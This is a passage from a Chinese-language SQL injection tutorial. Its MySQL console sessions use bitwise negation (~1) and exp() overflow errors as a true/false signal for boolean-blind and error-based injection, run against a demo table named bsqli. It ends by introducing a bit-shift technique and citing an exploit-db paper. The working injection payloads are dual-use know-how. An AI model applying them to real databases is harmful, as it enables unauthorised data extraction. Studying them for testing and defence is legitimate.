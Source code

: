 ```
mysql&gt; select ~1 ;
+----------------------+
| ~1                   |
+----------------------+
| 18446744073709551614 |
+----------------------+
1 row in set (0.00 sec)

mysql&gt; select bin(~1);
+------------------------------------------------------------------+
| bin(~1)                                                          |
+------------------------------------------------------------------+
| 1111111111111111111111111111111111111111111111111111111111111110 |
+------------------------------------------------------------------+
1 row in set (0.32 sec)
```

我想学过二进制的就一目了然了，这种方法往往用在报错注入，但是实际上我之前说了，我还是把这种方式归为布尔盲注里面，请看下面的两个例子

###### **示例1：**

```
mysql&gt; select * from bsqli where id = 1 and if(1,1,exp(~(select * from (select database())a)));
+----+--------+----------+
| id | name   | password |
+----+--------+----------+
|  1 | K0rz3n | 123456   |
+----+--------+----------+
1 row in set (0.00 sec)

mysql&gt; select * from bsqli where id = 1 and if(0,1,exp(~(select * from (select database())a)));
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select `a`.`database()` from (select database() AS `database()`) `a`)))'
```

###### **示例2：**

```
mysql&gt; select * from bsqli where id = 1 and  if(1,1,1-~1);
+----+--------+----------+
| id | name   | password |
+----+--------+----------+
|  1 | K0rz3n | 123456   |
+----+--------+----------+
1 row in set (0.00 sec)

mysql&gt; select * from bsqli where id = 1 and if(0,1,1-~1);
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(1 - ~(1))'
```

##### **5.使用 &lt;&lt; 或 &gt;&gt;**

这个想法来源于外国人的一个测试 [文章地址](https://www.exploit-db.com/papers/17073)，实际上这个方法是我们平时用的二分法的优化（好久没看这个 exploit-db 怎么变成这么炫酷了~ 逃
